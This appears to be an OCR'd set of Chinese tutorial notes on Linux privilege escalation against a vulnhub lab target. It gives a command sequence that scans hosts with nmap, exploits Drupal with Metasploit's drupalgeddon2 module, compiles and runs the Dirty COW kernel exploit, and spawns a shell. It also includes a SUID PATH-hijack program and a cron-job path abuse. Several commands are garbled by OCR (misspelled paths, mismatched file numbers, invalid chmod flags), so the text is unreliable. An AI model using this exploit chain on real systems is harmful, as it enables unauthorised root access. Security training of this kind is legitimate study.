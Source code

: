 #### Linux提权脏牛内核漏洞演示-linux-exploit-suggester

内核提权整个过程: (linux-exploit-suggester获取信息 哦)
vulnhub靶机-探针目标-CMS漏洞利用-脚本探针提权漏洞-利用内核提权-GG
内核漏洞提权过程:寻可用-”下exp-.上/ tmp-编译exp-执行(无权限用chmod)

```
nmap 192.168.76.0/24
nmap -p1-65535 192.168.76.141
search drupal
use exploit/unix/ webapp/ drupal_drupalgeddon2
set lhost 192.168.76.141
set lport 1898
set target 0
run
upload /tmp/ 40837.cpp /tmp/40837.cpp
g++ -all -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
python -c 'import pty; pty.spawn ("/bin/bash")'
./dcow
```

####  Linux提权本地环境变量安全- Aliyun

配合SUID进行环境变量提权-本地用户环境
手写调用文件-编译-复制文件-增加环境变量-执行触发

```
demo.c

#include<unistd.h>
void main ()
{ 
setuid(0) ;
setgid(0) ;
system("ps") ;
}

gcc demo.c -o shell
cp /bin/sh /tmp/ps
export PATH=/tmp:$PATH
./shell
id
```

#### Linux提权本地定时任务安全-Aliyun

##### #第一种:路径问题

利用计划任务指向的文件的相对路径解析问题

```
cat /ect/crontab
echo 'cp /bin/baah /tmp/bash; chmod +a /tmp/bash' >
/home/cuoni/teat.sh
chmod +x /home/cuoni/test.sh
/tmp/baah
```
